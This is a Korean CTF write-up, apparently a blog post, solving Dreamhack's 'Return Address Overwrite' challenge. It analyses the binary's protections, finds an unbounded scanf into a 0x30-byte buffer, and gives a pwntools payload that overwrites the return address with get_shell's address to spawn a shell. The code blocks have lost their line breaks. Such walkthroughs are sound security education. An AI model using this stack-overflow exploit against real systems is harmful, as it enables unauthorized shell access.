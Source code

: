 ```yaml
---
layout: post
title: 'Dreamhack-Return Address Overwrite 문제 풀이'
summary: Return Address Overwrite 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['system_hacking']
thumbnail: /assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png
keywords: system_hacking
usemathjax: true
permalink: /blog/system_hacking/2024-12-01-Return-Address-Overwrite
---
```


* TOC
{:toc}

<br>


## 0. 메타데이터 분석

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled.png){: width="100%" height="100%"}

<br>

- ELF64
- little endian

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_1.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_1.png){: width="100%" height="100%"}

<br>

- not stripped
- C언어 라이브러리

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_2.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_2.png){: width="100%" height="100%"}

<br>

- NX enabled, but no canary & no PIE(코드 영역 고정으로 plt, got 고정)

—> 가능한 익스플로잇은 Return Address Overwrite나 ROP 정도일 것

<br>

## 1. 행위 분석

<br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_3.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_3.png){: width="100%" height="100%"}

<br>

단순하게 Input: 을 출력하고 사용자 입력값을 받은 후 종료하는 프로그램

해당 프로그램에 어떤 취약점이 존재하는지 파악해 보자.

<br>

## 2. 정적 분석

<br>

내부에 어떤 함수가 있는지부터 파악해 보자.

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_4.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_4.png){: width="100%" height="100%"}

<br>

main 함수가 존재하고, get_shell 함수가 존재한다. 두 함수를 요주의 함수로 두고 접근하자.

<br>

### 2.1. alias 자동 설정 스크립트

<br>

disassemble을 disas로 alias 설정을 하고 싶은데, 터미널을 실행할 때마다 alias를 새로 실행해야 해서 귀찮았다. 따라서 pwndbg의 스크립트를 아래와 같이 수정해 pwndbg가 실행될 때마다 disas가 disassemble로 설정되도록 했다.

```python
# Force UTF-8 encoding (to_string=True to skip output appearing to the user)command='''set charset UTF-8alias disas=disassemble'''gdb.execute(command, to_string=True)
```
<br>

### 2.2. main 함수 분석

<br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_5.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_5.png){: width="100%" height="100%"}

<br>

1. 내부에서 get_shell을 호출하는 부분은 없다
2. main함수의 지역 변수는 1개로, 0x30짜리 크기를 가졌음(이하 buf)
3. scanf(”%s”, buf)

scanf 함수는 길이 제한 없이 사용자 입력값을 받는 취약점이 있으므로 이를 활용할 수 있어 보인다.

<br>

### 2.3. get_shell 함수 분석

<br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_6.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_6.png){: width="100%" height="100%"}



![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_7.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_7.png){: width="100%" height="100%"}



1. 0x4006aa가 해당 함수의 시작 주소
2. `execve(”/bin/sh”, *(rbp-0x8)*(/bin/sh문자열의 주소)*, 0)`를 실행하는 함수

<br>

## 3. 페이로드 작성

<br>

0x30 bytes dump + 0x08 bytes rbp dump + 0x00000000004006aa

```python
from pwn import *p=process("./rao")
payload=b'A'*0x30payload+=b'B'*0x08payload+=p64(0x4006aa, endian='little')
print(hexdump(payload))
p.sendline(payload)
p.interactive()
```

<br>

![/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_8.png](/assets/img/posts/2024-12-01-Return-Address-Overwrite/Untitled_8.png){: width="100%" height="100%"}

<br>

Return Address Overwrite를 통해 쉘을 딸 수 있었다.

이제 원격 호스트에 대해 실행은 생략한다(이미 푼 문제라 플래그 입력이 안 된다)